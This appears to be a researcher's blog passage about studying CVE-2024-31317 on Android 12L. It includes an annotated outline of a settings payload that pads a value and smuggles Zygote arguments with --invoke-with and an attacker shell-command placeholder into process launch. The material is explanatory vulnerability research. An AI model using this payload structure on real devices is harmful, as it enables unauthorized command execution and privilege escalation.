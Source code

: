 I spent weeks studying this vulnerability, getting a Android build environment setup in my homelab, building VMs of Android 12L that I could test, tweaking print statements to trace the flow and timing of this convoluted multi-process communication system used in starting every process tied into the Android event system. This vulnerability is made much more complicated on Android 12 and later, and the Pin is on 12L, which meant the flow was extra confusing and there was a mix of native and Java code that needed to be traced. Eventually I understand the exact mechanics behind it thoroughly enough and ([I do my best to document my findings](https://github.com/agg23/cve-2024-31317/)) to add to the public discussion of the vulnerability and hopefully add some clarity over existing articles that didn't go as deep (I shortly thereafter found a group of people trying to apply this vulnerability, aided by my research, to another embedded Android device).

The exploit process ([see here for a detailed explanation](https://github.com/agg23/cve-2024-31317/)):

1. Attacker constructs a payload. On Android 12+ this payload needs to exploit specific timing and logic details to force the Zygote process launch system to execute our command. For simplicity sake, our payload looks something like:

```
───────────────────────────────────────────────────────────────────────────────────────────────
BEGIN SETTINGS PAYLOAD
───────────────────────────────────────────────────────────────────────────────────────────────

\n                                      # Newlines (~3000x for padding)
\n
\n
...
\n
AAAAA...A                               # Any non-newline char; pads total to ~8,196 bytes
                                        # (includes some Android-added bytes not seen here)
───────────────────────────────────────────────────────────────────────────────────────────────
START OF ATTACKER-INJECTED COMMAND
───────────────────────────────────────────────────────────────────────────────────────────────

1234\n                                  # Number of arguments in command
--various-zygote-internal-arguments\n   # Determines permissions for new process
--invoke-with\n                         # Argument wrapper for custom command
[ATTACKER SH COMMAND]\n                 # Malicious shell command supplied by attacker
android.app.ActivityThread\n            # Expected entrypoint class to keep structure valid

───────────────────────────────────────────────────────────────────────────────────────────────
END OF ATTACKER-INJECTED COMMAND
───────────────────────────────────────────────────────────────────────────────────────────────

,,,,,,,,...,                            # Number of trailing commas is tuned for timing
                                        # (count of total commas + newlines) <= 12,200 in
                                        # Android 12L

───────────────────────────────────────────────────────────────────────────────────────────────
END SETTINGS PAYLOAD
───────────────────────────────────────────────────────────────────────────────────────────────
```
